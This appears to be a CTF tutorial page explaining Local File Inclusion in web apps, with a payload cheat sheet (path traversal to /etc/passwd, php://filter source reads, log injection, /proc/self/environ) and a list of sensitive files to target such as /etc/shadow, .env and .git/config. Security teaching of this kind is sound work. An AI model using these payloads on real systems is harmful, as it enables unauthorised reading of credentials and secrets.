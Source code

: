 ```yaml
---
title: "Local File Inclusion (LFI)"
description: "Include and read arbitrary files through vulnerable path parameters in web applications."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["lfi", "file inclusion", "web exploitation", "php"]
authors: ["CTF.Support Team"]
summary: "Learn how LFI vulnerabilities allow access to local files and how they evolve into code execution vectors."
aliases: ["/web/lfi/"]
slug: "lfi"
toc: false
---
```


## Introduction

**Local File Inclusion (LFI)** occurs when a web application dynamically loads files based on unsanitized user input.
Attackers can exploit this to read system files, configuration data, user credentials, or even gain code execution with PHP filters or log injection.

Example vulnerable endpoint:

```text
https://example.com/?page=home
```

If an attacker changes it to:

```text
https://example.com/?page=../../../../etc/passwd
```

they may retrieve sensitive files from the underlying system.

## Quick Reference

| Task                             | Example                                                       |
|----------------------------------|---------------------------------------------------------------|
| Basic traversal                  | `?page=../../../../etc/passwd`                                |
| Read PHP source (Base64 encoded) | `?page=php://filter/convert.base64-encode/resource=index.php` |
| Log file injection               | `?page=/var/log/apache2/access.log`                           |
| Environment data                 | `?page=/proc/self/environ`                                    |

## Interesting Files

Below is a list of system and application files commonly targeted during LFI exploitation in CTFs.

```text
# System files
/etc/passwd
/etc/shadow
/etc/hosts
/etc/issue

# Log files
/var/log/auth.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log

# Web application files
/var/www/html/index.php
/var/www/html/config.php
/var/www/html/.env
/var/www/html/.htaccess

# Version control
/var/www/html/.git/config
/var/www/html/.git/HEAD

# Running process files (procfs)
/proc/self/environ
/proc/self/cmdline
```

{{< toc-tree >}}
